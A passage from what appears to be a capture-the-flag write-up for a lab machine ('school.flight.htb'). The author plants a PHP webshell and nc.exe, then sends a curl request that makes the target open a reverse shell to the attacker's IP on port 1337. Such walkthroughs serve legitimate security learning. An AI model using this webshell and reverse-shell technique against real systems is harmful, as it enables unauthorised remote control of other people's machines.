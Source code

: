 
Let's put `nc.exe` and `dr4ks.php` webshell into here to get reverse shell.


![Alt text](img/image-24.png)


Now I can browse webshell to add my reverse shell code as below via `curl` command.

```bash
curl -G school.flight.htb/styles/dr4ks.php --data-urlencode 'cmd=nc.exe -e cmd.exe 10.10.16.6 1337'
```

![Alt text](img/image-25.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-26.png)
